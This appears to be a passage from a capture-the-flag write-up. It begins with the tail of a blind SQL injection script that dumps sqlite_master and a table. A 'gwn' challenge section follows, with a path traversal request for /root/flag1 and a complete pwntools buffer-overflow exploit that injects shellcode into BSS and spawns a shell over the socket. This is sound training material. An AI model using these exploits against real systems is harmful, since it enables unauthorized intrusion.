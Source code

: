 ``` python
            if guess(table, column, i, c):
                result += c
                found = True
                break
        i += 1
        if not found:
            print("\r%s " % result)
            break

dump('sqlite_master', 'name')
dump('sqlite_master', 'sql')
dump('shiro', 'white')

```

## gwn

### 1
- GET: `/../../root/flag1`
- Maybe you shoud use `nc` instead of `curl` and browser

### 2
- Dump .git (GitTools)
- And you can get the source code
- Overflow return address of `read_req_path`
- Write shellcode to inject on BSS section
- Use `sys_dup2` to rewrite `stdout` and `stdin` to the socket file descriptor

```python
from pwn import *

r = remote("localhost", 10205)
e = ELF('./server.out')

# bss addresses
bss_addr = e.bss()
req_path_addr = bss_addr + 144 + 256
sockfd_addr = bss_addr + 144 + 256 + 128 + 8 + 8

# shellcode
s = """
mov rsi, 2
mov rdi, [%d]
dup2:
mov rax, 33
syscall
dec rsi
jns dup2
""" % sockfd_addr
s += shellcraft.amd64.sh()

# payload
p = "GET /" + asm(s, arch='amd64')
p += (1000 - len(p) + 8) * 'p'  # padding
shellcode_addr = req_path_addr + 2
p += p64(shellcode_addr)        # return address

r.sendline(p)
r.interactive()
```
